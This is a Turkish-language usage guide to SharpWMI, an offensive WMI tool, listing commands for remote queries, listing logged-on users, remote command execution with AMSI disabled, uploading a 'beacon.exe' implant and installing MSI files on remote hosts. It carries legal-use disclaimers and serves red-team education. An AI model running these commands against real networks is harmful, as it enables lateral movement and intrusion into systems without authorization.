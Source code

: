 # SharpWMI Kullanım Rehberi

## SharpWMI Nedir?

**SharpWMI**, Windows Management Instrumentation (WMI) işlevselliğinin çeşitli yönlerini uygulayan bir C# aracıdır. Yerel ve uzaktan WMI sorgularını, uzaktan WMI süreç oluşturmayı ve keyfi VBS kodlarını WMI olay abonelikleri üzerinden çalıştırmayı destekler. Ayrıca, uzaktan yöntemler için alternatif kimlik bilgileri de kullanılabilir.

> **Önemli Not:** SharpWMI yalnızca yetkili test ortamlarında ve etik kullanım amaçlı çalıştırılmalıdır. Yetkisiz kullanım yasa dışıdır.

---

## Özellikler

1. **Yerel ve Uzak WMI Sorguları:**
   - WMI sorguları aracılığıyla sistem bilgilerini toplar.
2. **Uzaktan Süreç Çalıştırma:**
   - `win32_process` ile uzak makinelere komutlar gönderir ve çalıştırır.
3. **VBS Kodu Çalıştırma:**
   - WMI üzerinden VBS kodlarını yürütür.
4. **Dosya Yükleme ve Çevresel Değişken Yönetimi:**
   - Uzak sistemlere dosya yükleme ve çevresel değişkenleri ayarlama imkânı sunar.

---

## İndirme ve Derleme

SharpWMI aracı GitHub üzerinden sağlanabilir:

- [SharpWMI GitHub Sayfası](https://github.com/GhostPack/SharpWMI)

### Çalıştırma Adımları

1. **Araç Dosyasını İndirin:**
   ```bash
   git clone https://github.com/GhostPack/SharpWMI.git
   ```

2. **Derleme:**
   - Visual Studio 2015 veya üzeri bir IDE kullanarak projeyi açın ve derleyin.
   - Derleme sonucunda `SharpWMI.exe` dosyasını elde edeceksiniz.

---

## Kullanım Parametreleri

### Genel Kullanım
```bash
SharpWMI.exe <action> [parametreler]
```

### Desteklenen İşlemler ve Parametreler

#### Yerel Sistem Sorgusu
Yerel sistem bilgilerini toplar:
```bash
SharpWMI.exe action=query query="select * from win32_service"
```

#### Uzak Sistem Sorgusu
Uzak bir sistemde WMI sorgusu çalıştırır:
```bash
SharpWMI.exe action=query computername=HOST query="select * from win32_service"
```

#### Giriş Yapmış Kullanıcıları Listeleme
Uzak bir sistemde oturum açmış kullanıcıları listeler:
```bash
SharpWMI.exe action=loggedon computername=HOST
```

#### Uzak Süreç Oluşturma
Bir uzak makinede komut çalıştırır:
```bash
SharpWMI.exe action=exec computername=HOST command="C:\\temp\\process.exe"
```

#### Dosya Yükleme
Bir uzak makineye dosya yükler:
```bash
SharpWMI.exe action=upload computername=HOST source="C:\\source\\file.exe" dest="C:\\temp\\dest-file.exe"
```

#### Çevresel Değişken Yönetimi
Bir çevresel değişkeni ayarlamak için:
```bash
SharpWMI.exe action=setenv name=VariableName value=VariableValue computername=HOST
```

Çevresel değişkeni silmek için:
```bash
SharpWMI.exe action=delenv name=VariableName computername=HOST
```

#### MSI Dosyası Yükleme
Bir uzak makineye MSI dosyası yükler:
```bash
SharpWMI.exe action=install computername=HOST path="C:\\temp\\installer.msi"
```

---

## Örnek Kullanım Senaryoları

1. **Yerel Sistem Süreçlerini Listeleme**:
   ```bash
   SharpWMI.exe action=query query="select * from win32_process"
   ```

2. **Uzak Makinede Komut Çalıştırma**:
   ```bash
   SharpWMI.exe action=exec computername=remote.testlab.local command="whoami" result=true amsi=disable
   ```

3. **Dosya Yükleme**:
   ```bash
   SharpWMI.exe action=upload computername=remote.testlab.local source="C:\\beacon.exe" dest="C:\\temp\\beacon.exe"
   ```

4. **MSI Dosyası Yükleme**:
   ```bash
   SharpWMI.exe action=install computername=remote.testlab.local path="C:\\temp\\installer.msi"
   ```

---

## Güvenlik ve Önlemler

- **Yetkili Kullanıcılar:** SharpWMI yalnızca güvenlik uzmanları ve yetkili sistem yöneticileri tarafından kullanılmalıdır.
- **Test Ortamı:** Araç, üretim ortamında kullanılmadan önce test ortamında değerlendirilmelidir.
- **Loglama:** Çalıştırılan komutlar sistem loglarına kaydedilebilir. Yasalara uygun hareket edilmelidir.

---

> **Uyarı:** Bu rehber yalnızca eğitim ve araştırma amaçlıdır. Yetkisiz kullanımlar yasa dışıdır.
